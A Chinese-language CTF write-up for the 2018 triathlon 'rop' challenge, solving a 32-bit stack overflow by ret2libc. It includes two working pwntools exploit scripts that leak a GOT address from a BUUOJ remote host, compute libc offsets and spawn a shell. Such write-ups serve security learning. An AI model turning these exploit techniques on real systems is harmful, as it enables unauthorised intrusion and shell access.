






## 铁人三项(第五赛区)_2018_rop

### 原题



先看保护



这是一个比较经典的保护机制就只有一个nx的shellcode保护

这里我们看看反编译文件



这里发现一个漏洞函数位vulnerable_function进去看看





那个be_nice_to_people函数的功能取得执行目前进程有效组识别码

因此主要的功能点还是在vulnerable_function中这里可以明显的看出有一个栈溢出并且可以读取输入的string

同时可以看一下字符串发信啊没有我们想要的system函数和/bin/sh函数

猜测需要使用ret2libc的方法



因此我们使用的exp是

```python
from LibcSearcher import LibcSearcher
from pwn import *
context.log_level='debug'

io = remote("node5.buuoj.cn",26772)
elf = ELF('/home/fofa/2018_rop')

offset = 0x88+4
write_got = elf.got['write']
write_plt = elf.plt['write']
main_addr = elf.sym['main']
payload = b'a'*offset +p32(write_plt)+p32(main_addr)+p32(1)+p32(write_got)+p32(4)
io.sendline(payload)
write_addr = u32(io.recvuntil(b'\xf7')[-4:])
print(hex(write_addr))

libc = LibcSearcher('write',write_addr)
libc_base = write_addr-libc.dump('write')
system = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload = b'a'*offset+p32(0x03cd10)+p32(0)+p32(0x17b8cf)
io.sendline(payload)
io.interactive()
```

但是发现他有着libc的小版本的区别

因此我们要是用[libc database search (blukat.me)](https://libc.blukat.me/?q=write%3A6f0%2Cread%3A620&l=libc6-i386_2.27-3ubuntu1_amd64)这个网站查找system和binsh的libc偏移量

这里发现需要两个地址这里可以找到read和write两个地址因此


因此我们要把我们的代码libc地址进行替换获取到了新的代码

exp：

```python
from LibcSearcher import LibcSearcher
from pwn import *


context.log_level='debug'

io = remote("node5.buuoj.cn",26772)
elf = ELF('/home/fofa/2018_rop')

offset = 0x88+4
write_got = elf.got['write']
write_plt = elf.plt['write']
main_addr = elf.sym['main']
read_got = elf.got['read']
payload = b'a'*offset +p32(write_plt)+p32(main_addr)+p32(1)+p32(read_got)+p32(4)
io.sendline(payload)
read_addr = u32(io.recvuntil(b'\xf7')[-4:])
print(hex(read_addr))

read_offset = 0x0e5620
system_offset = 0x03cd10
binsh_offset = 0x17b8cf

base_addr = read_addr - read_offset
sys_addr = system_offset + base_addr
bin_addr = binsh_offset + base_addr
print(hex(sys_addr))
print(hex(bin_addr))
payload = b'a'*offset+p32(sys_addr)+p32(0)+p32(bin_addr)
io.sendline(payload)
io.interactive()
```

---

### 总结

这里发现如果没有libc的版本因此我们要使用[libc database search (blukat.me)](https://libc.blukat.me/?q=write%3A6f0%2Cread%3A620&l=libc6-i386_2.27-3ubuntu1_amd64)来查找我们需要的write和sys的等字符串的地址

